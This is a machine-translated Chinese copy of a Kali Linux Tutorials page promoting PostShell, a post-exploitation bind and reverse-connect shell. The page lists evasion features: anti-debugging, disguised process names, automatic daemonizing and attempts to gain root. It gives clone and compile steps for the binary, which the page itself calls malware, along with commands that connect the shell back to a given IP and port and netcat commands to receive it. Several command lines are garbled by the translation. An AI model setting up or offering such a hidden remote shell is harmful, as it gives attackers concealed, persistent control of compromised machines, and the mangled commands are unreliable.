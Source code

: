 # Post Shell–利用后绑定/反向连接 Shell

> 原文：<https://kalilinuxtutorials.com/postshell-post-exploitation-bind-backconnect-shell/>

[![PostShell – Post Exploitation Bind/Backconnect Shell](img//fa9d4f5e7cd57a3ccff1c3e4fa9d87e8.png "PostShell – Post Exploitation Bind/Backconnect Shell")](https://1.bp.blogspot.com/-ISN0E4Apmn0/XYMGP2A7rjI/AAAAAAAACiU/ZO6_gx25qaAutODJQ-9qyF784U4M3hKWwCLcBGAsYHQ/s1600/img01%2B%25281%2529.png)

PostShell 是一个后开发外壳，包括绑定和后连接外壳。它创建了一个完全交互式的 TTY，允许作业控制。存根大小约为 14kb，可以在任何类似 Unix 的系统上编译。

**截图**

连接开始后与 shell 的横幅和交互。

![](img//180a45b9ecab9b910084ed3c0729943f.png)

**也读作-[Metame:用于任意可执行文件的变形代码引擎](https://kalilinuxtutorials.com/metame-metamorphic-code-engine/)**

为什么不使用传统的 Backconnect/Bind Shell？

PostShell 通过减少攻击者对 Python 和 Perl 等依赖项的依赖，使得后期利用更加容易。

它还结合了 back connect 和 bind shell，这意味着如果目标不允许传出连接，操作员可以简单地启动 bind shell 并远程连接到机器。

PostShell 也比传统的 Shell 不那么可疑，因为进程名和参数都被隐藏了。

**特性**

*   反调试，如果检测到 ptrace 连接到 shell，它将退出。
*   进程名/线程名被隐藏，一个假名字覆盖了所有的系统参数和文件名，使它看起来像一个合法的程序。
*   TTY，创建了一个 TTY，它基本上允许像通过 SSH 连接一样使用机器。
*   绑定/反向连接外壳，可以创建绑定外壳和反向连接。
*   小存根大小，通常生成非常小的存根(< 14kb)。
*   自动守护
*   尝试将 GUID/UID 设置为 0(根)

**入门**

**下载:git 克隆 https://github.com/rek7/postshell**

**编译:CD postshell&sh compile . sh 这应该会创建一个名为“存根”的二进制文件这就是恶意软件。**

**命令**

**$。/stub
绑定外壳用法:。/stub port
Back Connect 用法:。/存根 ip 端口
$**

**示例用法**

**回接:**

**$。/存根 127.0.0.1 13377**

**绑定外壳:**

**$。/存根 13377**

**接收与 Netcat 的连接**

**接收反向连接:**

**$ nc -vlp 端口**

**连接到绑定外壳:**

**$ nc 主机端口**

[**Download**](https://github.com/rek7/postshell)